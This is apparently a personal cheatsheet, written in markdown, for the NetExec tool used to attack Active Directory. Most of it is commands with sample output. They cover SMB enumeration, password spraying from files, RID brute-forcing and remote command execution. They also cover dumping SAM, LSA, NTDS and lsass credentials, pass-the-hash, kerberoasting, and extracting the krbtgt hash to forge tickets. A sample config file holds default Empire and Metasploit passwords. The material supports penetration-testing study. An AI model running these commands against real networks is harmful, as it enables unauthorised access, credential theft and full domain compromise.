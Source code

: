 ```yaml
---
title: NetExec-cheatsheet-AD
date: 2024-01-22 10:00:00
categories: [tool, active_directory]
tags: [windows, privesc, enumeration]    # TAG names should always be lowercase
image: https://cloud.githubusercontent.com/assets/5151193/17577511/d312ceb4-5f3b-11e6-8de5-8822246289fd.jpg
---
```

## My notes for the <a href="https://github.com/Pennyw0rth/NetExec">Netexec</a>Netexec tool

Enumeration:

```bash
nxc smb -h
```

```bash
nxc smb <URL>
SMB <URL> 445  DC-DC [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
```

Name: PC’s name

domain: domain’s name

SMBv1:True (Possible Eternal Blue exploit)

Check for acounts:

```bash
nxc smb <URL> -u 'guest' -p ''

SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\guest: STATUS_ACCOUNT_DISABLED
```

With a file:

```bash
nxc smb <URL> -u 'usern.name' -p 'password_file.txt'
```

```bash
SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc. local) (signing:True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:password STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Password123 STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Summer2023! STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [+] dc. local\name.surname:SeekTheCheapestRoute!
```

Pass the password:

```bash
nxc smb <URL> -u 'user_file.txt' -p '<found_password>'
```

With credentials: (enumerate users and groups)

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' --rid-brute
```

With`--log` you can log a specific command to a specific file

config file:

```bash
/home/kali/.nxc/nxc.conf
[nxc]
workspace = default
last_used_db = smb
pwn3d_label = Pwn3d!
audit_mode =
reveal_chars_of_pwd = 0
log_mode = False <--- if True generates log in the "/home/kali/.nxc/logs" folder
ignore_opsec = True
host_info_colors = ["green", "red", "yellow", "cyan"]

[BloodHound]
bh_enabled = False
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = neo4j

[Empire]
api_host = 127.0.0.1
api_port = 1337
username = empireadmin
password = password123

[Metasploit]
rpc_host = 127.0.0.1
rpc_port = 55552
password = abc123
```

Kerberos Auth:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -k
```

If you have a tgt ticket:

```bash
export KRB5CCNAME=ticket.ccache
nxc smb <URL> -u 'user.name' -p 'found_password' --use-kcache
```

Execute commands:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'command' <--- cmd
nxc smb <URL> -u 'user.name' -p 'found_password' -X 'command' <--- Powershell
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'powershell.exe -c "GCI C:\\"' <--- Powershell without obfuscation
```

If you got admin the first thing to do is dump the sam/lsa:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --sam 
```

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --lsa
```

Auth with Hash:

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash>
```

PC name needed.

ntds dump:

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash> --ntds
```

ntds dump of a single user: (better krbtgt)

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash> --ntds --user krbtgt
```

With the hash of the krbtgt we can forge our own tickets.

Modules:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M nanodump
```

Get lsass dump and parse the result with pypykatz

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M lsassy
```

Dumps lsass and parse the result remotely with lsassy

Put files in the smb share:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --put-file file.txt '\\file.txt'
```

### LDAP

```bash
nxc ldap -L <--list modules
```

Kerberoast:

```bash
nxc ldap <URL> -u 'Administrator' -p 'admin_pass' --kerberoasting outfile.txt
```